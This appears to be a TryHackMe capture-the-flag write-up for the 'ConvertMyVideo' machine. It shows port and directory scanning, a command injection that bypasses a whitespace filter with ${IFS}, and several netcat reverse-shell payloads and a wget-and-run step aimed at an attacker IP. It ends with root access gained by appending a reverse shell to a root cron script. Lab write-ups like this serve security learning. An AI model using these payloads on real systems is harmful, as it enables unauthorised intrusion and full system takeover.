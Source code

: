 ```yaml
---
title: ConvertMyVideo - Medium THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /convert
tags: [Command injection, Web]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Medium**
- Author: **Talace**

# Scanning 🤖

**threader300.py**
```
**python3 threader3000.py**
```
```
Port 22 is open
Port 80 is open
```
**nmap scan**
```
nmap -p22,80 -sV -sC -T4 -Pn -oA 10.10.232.225 10.10.232.225
```
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
# Enumeration 👀

**dirb scan**
```
dirb http://10.10.232.225/ /usr/share/wordlists/dirb/common.txt
```
```
---- Scanning URL: http://10.10.232.225/ ----
+ http://10.10.232.225/admin (CODE:401|SIZE:460)
```
# Command injection 💉
We spawn on the main page

![mainPage](/assets/convertMyVideo/mainPage.png)

I capture the request in burp.. seems not very secure
![burp1](/assets/convertMyVideo/burp1.png)

Try **'id'** command, it works!
![idCommand](/assets/convertMyVideo/idCommand.png)

I can't **'ls -la'**, it return nothing, maybe i can't have white space ? 
I have found that the var IFS, is by default a ' ', so let's try with it! 
```bash
--version;ls${IFS}-la;
```

Nice it work, from this i'm able to retrieve a lot of data, and the user by the same occasion
![userFlag](/assets/convertMyVideo/userFlag.png)

**It's cool, but we need a way to enter, let's put a reverse shell in it!**
open my listener:
```bash
nc -nvlp 4444
```

And send my reverse shell! 
```bash
rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|sh${IFS}-i${IFS}2>&1|nc${IFS}10.8.138.226${IFS}4444${IFS}>/tmp/f;
```

**Oh crap!? It close instantly, let's wget and run script!**😦
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4444 >/tmp/f" >> shell.sh
```
Open a http server
```bash
python3 -m http.server 80
```
And lunch my new command, wget the script and run it with bash
```bash
--version;wget${IFS}http://10.8.138.226/pwn.sh;bash${IFS}shell.sh;
```
**Yessir! We are in!**😼

# Privilege escalation 🐧
**Upgrade the shell**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Let's run pspy**
check wich one is need:
```bash
uname -a

Output: Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
I need the 64 bits, wget it and change rights:
```bash
wget http://10.8.138.226:81/pspy64
&&
chmod +xs pspy64
```

**Now lunch the pspy**

./pspy64, Oh interesting cron job!
```bash
2023/11/11 18:13:01 CMD: UID=0     PID=27982  | bash /var/www/html/tmp/clean.sh
```

**Let's lunch a reverseshell from it.**

Open a netcat:
```bash
nc -nvlp 4445
```
Now put the revershell in it.
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4445 >/tmp/f" >> clean.sh
```
Go back on your netcat... Boom! Got root GG!

![ROOT](/assets/convertMyVideo/root.png)

# Resources
How to run a command without white space: [Article](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces?source=post_page-----e012e7db996--------------------------------)